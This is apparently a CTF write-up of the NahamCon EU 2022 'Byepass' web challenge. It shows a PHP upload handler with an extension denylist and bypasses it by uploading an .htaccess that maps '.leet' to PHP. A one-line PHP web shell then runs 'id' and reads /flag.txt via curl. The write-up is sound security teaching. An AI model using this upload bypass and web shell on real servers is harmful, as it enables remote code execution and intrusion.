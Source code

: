 # Byepass

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

- Challenge difficulty: Medium

## Background

Author: @JohnHammond#6971  
  
Help yourself Say Goodbye to days gone by with our easy online service! Upload your photos to capture the memory, cherish them with friends and family, and savor the time we have together!  

**Retrieve the flag out of the root of the filesystem `/flag.txt`.**  

**Press the `Start` button on the top-right to begin this challenge.**

**Connect with:**  

- [http://challenge.nahamcon.com:30983](http://challenge.nahamcon.com:30983)

**Attachments:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# file byepass.7z 
byepass.7z: 7-zip archive data, version 0.4
```

## Find The Flag

**Let's extract all the files in side 7zip:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# 7z e byepass.7z
[...]

┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# ls -lah               
total 3.0M
drwxr-xr-x 6 root root 4.0K Dec 16 22:55 .
drwxr-xr-x 3 root root 4.0K Dec 16 22:54 ..
-rw-r--r-- 1 root root 535K Mar 23  2022 01.jpg
-rw-r--r-- 1 root root 247K Mar 23  2022 02.jpg
-rw-r--r-- 1 root root 523K Mar 23  2022 03.jpg
drwx------ 2 root root 4.0K Dec 10 15:47 assets
-rw-r--r-- 1 nam  nam  1.4M Dec 16 22:54 byepass.7z
drwx------ 2 root root 4.0K Mar 23  2022 css
-rw-r--r-- 1 root root  215 Dec 10 18:51 Dockerfile
drwx------ 2 root root 4.0K Mar 23  2022 img
-rw-r--r-- 1 root root 5.8K Dec 10 18:48 index.php
-rw-r--r-- 1 root root  70K Dec 10 17:28 php.ini
-rw-r--r-- 1 root root 5.2K Dec 10 18:02 save_memories.php
-rw-r--r-- 1 root root 206K Dec 10 16:06 styles.css
drwxr-xr-x 2 root root 4.0K Dec 10 16:14 www
```

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216225717.png)

**`/save_memories.php`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216225747.png)

Looks like we can upload a file to the server!

**Let's dig deeper into the source code:**
```php
<?php
error_reporting(E_ALL);
ini_set('display_errors',1);

$target_dir = "/var/www/html/uploads/";
$uploadOk = 1;

$ext_denylist = array(
    "php",
    "php2",
    "php3",
    "php4",
    "php5",
    "php6",
    "php7",
    "phps",
    "phps",
    "pht",
    "phtm",
    "phtml",
    "pgif",
    "shtml",
    "phar",
    "inc",
    "hphp",
    "ctp",
);

if(isset($_POST["submit"])) {    
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $filename = $_FILES["fileToUpload"]["name"];
    $uploadOk = 1;
    if ($filename== ""){
        echo("<br><br><br><br><h1>ERROR:</h1> No file was supplied.");
        $uploadOk = 0;
    }

    $ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
    if ( in_array($ext, $ext_denylist)) {
        echo('<br><br><br><br><h1>ERROR:</h1> Not a valid image to upload');
        $uploadOk = 0;
    }

    if ($_FILES["fileToUpload"]["size"] > 500000) {
      echo("<br><br><br><br><h1>ERROR:</h1> This file is too large for us to store!");
      $uploadOk = 0;
    }

    if ($uploadOk){

        $moved = move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
        if ($moved){
            echo("<br><br><br><br><h1>SUCCESS:</h1> Your memory has been saved, you can view your photographs here: <a href='$filename'>/uploads/$filename</a>.");
        } else {
            echo("<br><br><br><br><h1>ERROR:</h1> Sorry, there was an error uploading your file '$filename'.<br><br>");
            echo($_FILES['fileToUpload']['error']);
            var_dump($_FILES);
        }
    }
}

?>
[...HTML_Code...]
```

**Let's break it down!**

- After upload a file, it checks:
    - If it's empty, `uploadOk` set to `0`
	- If the extension is in the blacklist, `uploadOk` set to `0`
	- If the file size is greater than `500000`, `uploadOk` set to `0`
- Then, if `uploadOk` is `1`, do:
	- Move the uploaded file to the destination, which is `/var/www/html/uploads/<filename>`

**Armed with above information, we can try to bypass the blacklist extensions!**

**But first, let's upload a normal image file:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216230726.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216230746.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216230811.png)

**Luckly, I've learned how to bypass extension blacklist in PortSwigger Lab! :D** 

> [PortSwigger Lab File Upload Vulnerabilities Writeup](https://siunam321.github.io/ctf/portswigger-labs/File-Upload-Vulnerabilities/fuv-4/)

Now, many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.

In Apache servers, it will load a directory-specific configuration from a file called `.htaccess` if one is present.

So, **what if I upload a file called `.htaccess` to override the server configuration?**

Therefore, we can create **our own `.htaccess` with the following configuration:**

```
AddType application/x-httpd-php .leet
```

**By doing that, we can execute any PHP files that has `.leet` extension!**

**Let’s do that!**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# echo "AddType application/x-httpd-php .leet" > .htaccess
```

**Then, we'll need to create a simple PHP one liner web shell, with `leet` extension:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# echo '<?php system($_GET["cmd"]); ?>' > webshell.leet
```

**Time to upload them!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216232735.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216232742.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216232752.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216232758.png)

**Then, we should able to execute any command via visiting that web shell file!**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# curl http://challenge.nahamcon.com:31150/webshell.leet --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Boom! We have RCE(Remote Code Execution), let's `cat` the flag!**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Byepass]
└─# curl http://challenge.nahamcon.com:31150/webshell.leet --get --data-urlencode "cmd=cat /flag.txt"
flag{32697ad7acd2d4718758d9a5ee42965d}
```

- **Flag: `flag{32697ad7acd2d4718758d9a5ee42965d}`**

# Conclusion

What we've learned:

1. RCE(Remote Code Execution) via File Upload & Blacklisted Extensions Bypass